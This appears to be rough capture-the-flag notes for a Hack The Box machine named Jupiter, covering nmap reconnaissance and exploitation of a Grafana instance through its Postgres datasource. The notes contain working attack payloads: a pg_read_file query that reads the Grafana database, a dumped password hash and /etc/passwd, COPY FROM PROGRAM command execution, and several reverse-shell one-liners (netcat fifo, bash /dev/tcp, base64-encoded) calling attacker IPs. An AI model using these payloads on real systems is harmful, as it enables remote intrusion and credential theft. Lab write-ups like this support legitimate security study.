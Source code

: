 # Introduction
<img width="684" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/30184ea8-6e74-4147-8627-a560a4492ada">

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx jupiter.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- jupiter.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

we found a "Source" folder
we found a "sass" folder

sous domaine : kiosk.jupiter.htb
Grafana v9.5.2

http://kiosk.jupiter.htb/metrics

{db_name="grafana"}

http://kiosk.jupiter.htb/api/dashboards/uid/jMgFGfA4z
we found there is a user named admin

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select pg_read_file('/var/lib/grafana/grafana.db' , 0 , 1000000);","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}


SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=

/usr/share/grafana/README.md



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
juno:x:1000:1000:juno:/home/juno:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution

DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS cmd_exec;   CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.221 6666 >/tmp/f'; SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}


{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS cmd_exec;   CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'echo rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 6666 >/tmp/f > /tmp/shell.sh'; SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}



{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS cmd_exec;   CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -i >& /dev/tcp/10.10.15.39/6666 0>&1'; SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}

echo cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuMzkgNjY2NiA+L3RtcC9mCg== > /tmp/shell.sh

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
